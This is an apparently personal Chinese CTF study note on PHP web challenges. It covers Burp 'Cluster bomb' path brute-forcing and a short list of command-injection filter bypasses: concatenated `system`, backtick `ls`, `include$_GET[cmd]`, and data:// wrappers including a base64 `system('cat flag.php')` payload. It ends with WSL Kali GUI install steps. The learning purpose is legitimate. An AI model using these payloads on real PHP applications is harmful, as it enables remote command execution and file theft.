 这里使用`Cluster bomb`模式，因为路径的规律是第一层`0`到`98`，第二层`0`到`98`，要尝试所有组合。爆破得到flag      
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241121193817.png)     

### 通配符    
### 拼接绕过    
`(sy.(st).em)("cat%20fla*");`
### echo(`ls`);
### include$_GET[cmd]?>  
### data://text/plain,<?php system("ls");?>
### data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
- `=`要url编码

---  
该web40了

## wsl安装图形界面
想要vmware的图形化界面，下载使用后发现我电脑16G内存太小了，VMware加上一些常用软件同时打开会卡   
- 参考[WSL2（win10子系统）Linux图形化GUI教程win-kex](https://blog.csdn.net/l1447320229/article/details/108210760)   

```
sudo apt install -y kali-win-kex
# 安装图形界面
sudo apt install kali-linux-large
# 安装kali的完整工具
kex
# 打开图形界面
```